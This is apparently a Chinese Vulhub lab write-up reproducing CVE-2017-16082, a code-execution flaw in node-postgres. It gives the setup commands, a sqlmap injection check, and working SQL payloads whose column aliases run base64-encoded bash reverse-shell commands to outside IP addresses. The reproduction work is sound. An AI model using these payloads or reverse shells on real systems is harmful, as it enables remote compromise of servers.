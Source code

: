 # node-postgres 代码执行漏洞 CVE-2017-16082

## 漏洞描述

node-postgres在处理类型为`Row Description`的postgres返回包时，将字段名拼接到代码中。由于没有进行合理转义，导致一个特殊构造的字段名可逃逸出代码单引号限制，造成代码执行漏洞。

参考链接：

- https://www.leavesongs.com/PENETRATION/node-postgres-code-execution-vulnerability.html
- https://node-postgres.com/announcements#2017-08-12-code-execution-vulnerability
- https://zhuanlan.zhihu.com/p/28575189

## 环境搭建

Vulhub编译及运行环境：

```
docker-compose build
docker-compose up -d
```

## 漏洞复现

成功运行后，访问`http://your-ip:3000/?id=1`即可查看到id为1的用户信息。

![image-20220228110115261](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202281101307.png)

用sqlmap即可发现此处存在注入点，且数据库为postgres：

```
python sqlmap.py -u http://your-ip:3000/?id=1 --dbs
```

![image-20220228110250087](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202281102191.png)

那么，我们就可以猜测这里存在node-postgres的代码执行漏洞。编写我想执行的命令`echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMTkuMC4xLzIxIDA+JjE=|base64 -d|bash`，然后适当分割（每段长度不超过64字符）后替换在如下payload中：

```
SELECT 1 AS "\']=0;require=process.mainModule.constructor._load;/*", 2 AS "*/p=require(`child_process`);/*", 3 AS "*/p.exec(`echo YmFzaCAtaSA+JiAvZGV2L3R`+/*", 4 AS "*/`jcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYxCgo= |base64 -d|bash`)//"

SELECT 1 AS "\']=0;require=process.mainModule.constructor._load;/*", 2 AS "*/p=require(`child_process`);/*", 3 AS "*/p.exec(`echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvd`+/*", 4 AS "*/`GNwLzEwMS40Mi4yMzcuNjEvMjMzMyAwPiYx |base64 -d|bash`)//"
```

将上述payload编码后发送：

![image-20220228111130445](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202281111534.png)

成功执行命令，如反弹shell：

![image-20220228111037961](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202281110043.png)

因为复现过程中坑比较多，payload生成与测试过程中如果出现错误，还请多多阅读[P师傅的这篇文章](https://www.leavesongs.com/PENETRATION/node-postgres-code-execution-vulnerability.html)，从原理上找到问题所在。

